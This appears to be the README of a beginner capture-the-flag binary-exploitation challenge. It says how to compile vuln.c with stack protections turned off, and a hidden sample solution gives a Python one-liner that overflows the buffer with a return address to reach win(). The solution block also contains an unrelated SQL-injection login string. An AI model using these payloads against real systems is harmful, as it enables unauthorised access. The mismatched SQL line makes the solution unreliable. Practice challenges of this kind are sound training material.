 # Binary Exploit CTF Challenge

## Description
A simple c code practicing Binary Exploit. Try to access the win() function to get the flag!

## How to Run Locally

1. Build the C file:

  ```bash
    gcc vuln.c -o vuln -no-pie -fno-stack-protector
  ```

## Files
- `vuln.c` - Functionality

## Note
- The goal is to access win() in some way.

<details>
  <summary>Sample solution</summary>
  python3 -c 'import sys; sys.stdout.buffer.write(b"A"*24 + b"\x76\x11\x40\x00\x00\x00\x00\x00" + b"\x00"*8)' | ./vuln
  <b>admin' --</b>

</details>
